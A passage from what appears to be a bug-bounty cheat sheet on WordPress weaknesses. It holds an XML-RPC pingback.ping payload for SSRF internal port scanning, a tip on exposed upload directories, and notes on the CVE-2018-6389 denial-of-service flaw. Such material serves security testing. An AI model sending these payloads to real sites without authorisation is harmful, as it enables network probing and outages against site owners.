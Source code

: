 -   Perform SSRF (Internal PORT scan only)
    ```
    <methodCall>
    <methodName>pingback.ping</methodName>
    <params><param>
    <value><string>http://<YOUR SERVER >:<port></string></value>
    </param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
    </value></param></params>
    </methodCall>
    ```

### Tool To Automate XMLRPC-Scan.

[XMLRPC-Scan](https://github.com/nullfil3/xmlrpc-scan)

### References

[Bug Bounty Cheat Sheet](https://m0chan.github.io/2019/12/17/Bug-Bounty-Cheetsheet.html)

[Medium Writeup](https://medium.com/@the.bilal.rizwan/wordpress-xmlrpc-php-common-vulnerabilites-how-to-exploit-them-d8d3c8600b32)

[WpEngine Blog Post](https://wpengine.com/resources/xmlrpc-php/)

# Directory listing

Sometimes developers forget to disable the directory listing on /wp-content/uploads. So this is the common issue on wordpress sites.

### Detection

/wp-content/uploads

### Pro tip

Add this path to your fuzzing wordlist

### References

[H1 Report](https://hackerone.com/reports/201984)
[H1 Report](https://hackerone.com/reports/762118)
[H1 Report](https://hackerone.com/reports/789388)
[H1 Report](https://hackerone.com/reports/448985)

# CVE-2018-6389

This issue can down any Wordpress site under 4.9.3 So while reporting make sure that your target website is running wordpress under 4.9.3

### Detection

Use the URL from my gist called loadsxploit, you will get a massive js data in response.

